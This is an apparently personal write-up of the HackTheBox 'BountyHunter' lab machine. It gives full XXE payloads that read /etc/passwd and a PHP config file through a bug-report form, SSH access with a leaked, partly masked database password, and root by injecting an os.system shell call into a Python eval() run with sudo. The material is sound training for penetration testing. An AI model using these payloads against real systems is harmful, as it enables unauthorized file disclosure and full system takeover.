






# CTF Penetration Testing

## Platform: HackTheBox

### Machine: [BountyHunter](https://www.hackthebox.com/machines/BountyHunter)


- Machine type:  Linux
- Machine difficulty: 🟩 Easy (<span style="color:#f4b03b;">4.0</span>)

> **BountyHunter** is an easy Linux machine that uses XML external entity injection to read system files. Being able to read a PHP file where credentials are leaked gives the opportunity to get a foothold on system as development user. A message from John mentions a contract with Skytrain Inc and states about a script that validates tickets. Auditing the source code of the python script reveals that it uses the eval function on ticket code, which can be injected, and as the python script can be run as root with `sudo` by the development user it is possible to get a root shell.

#### Skills Learned

- **XML External Entity (XXE) Injection** - Local File Disclosure
- **Linux Privilege Escalation** - `sudo` Rights Abuse
- **Command Injection** - Python `eval()`

#### Tools Used

Linux:
- `nmap`
- `whatweb`
- `dirsearch`
- `curl`
- `burpsuite`

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.7  netmask 255.255.254.0  destination 10.10.14.7

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '10.10.11.100\tbountyhunter.htb' | sudo tee -a /etc/hosts

10.10.11.100    bountyhunter.htb
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 10.10.11.100 -T5

[SNIP]

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sSVC -p22,80 10.10.11.100

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)

[SNIP]

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://10.10.11.100/

http://10.10.11.100/ [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.100], JQuery, Script, Title[Bounty Hunters]
```









**XML External Entity (XXE) Injection**

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
		<!DOCTYPE bountyhunter [
		<!ENTITY payload SYSTEM "file:///etc/passwd">
		]>
		<bugreport>
		<title>&payload;</title>
		<cwe>Test</cwe>
		<cvss>123</cvss>
		<reward>1337</reward>
		</bugreport>
```

```
┌──(nabla㉿kali)-[~]
└─$ vim xxe_payload.txt

<?xml version="1.0" encoding="ISO-8859-1"?>
		<!DOCTYPE bountyhunter [
		<!ENTITY payload SYSTEM "file:///etc/passwd">
		]>
		<bugreport>
		<title>&payload;</title>
		<cwe>Test</cwe>
		<cvss>123</cvss>
		<reward>1337</reward>
		</bugreport>

┌──(nabla㉿kali)-[~]
└─$ payload=$(cat xxe_payload.txt | base64 -w 0)

┌──(nabla㉿kali)-[~]
└─$ curl 'http://bountyhunter.htb/tracker_diRbPr00f314.php' -X POST --data-urlencode "data=$payload"

[SNIP]

    <td>Title:</td>
    <td>XXE TEST</td>

[SNIP]
```



```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
		<!DOCTYPE bountyhunter [
		<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php">
		]>
		<bugreport>
		<title>&payload;</title>
		<cwe>Test</cwe>
		<cvss>123</cvss>
		<reward>1337</reward>
		</bugreport>
```

```
┌──(nabla㉿kali)-[~]
└─$ dirsearch -u http://bountyhunter.htb

[SNIP]

[11:59:17] 200 -    0B  - /db.php

[SNIP]
```



```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19Ro***************";
$testuser = "test";
?>
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh development@bountyhunter.htb

development@bountyhunter.htb's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

[SNIP]

development@bountyhunter:~$
```

```
development@bountyhunter:~$ cat /home/development/user.txt 

4ab15*************************** 🚩
```

**Linux Privilege Escalation**

```
development@bountyhunter:~$ sudo -l

[SNIP]

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

```
development@bountyhunter:~$ cat /opt/skytrain_inc/invalid_tickets/390681613.md

# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**31+410+86**
##Issued: 2021/04/06
#End Ticket
```

**Command Injection**

```
development@bountyhunter:~$ nano /tmp/privesc_ticket.md

# Skytrain Inc
## Ticket to Mars
__Ticket Code:__
**11 + 13 == 24 and __import__('os').system('/bin/bash') == True

development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py

Please enter the path to the ticket file.
/tmp/privesc_ticket.md
Destination: Mars
root@bountyhunter:/home/development#
```

```
root@bountyhunter:/home/development# cat /root/root.txt

6f472*************************** 🚩
```


---
---
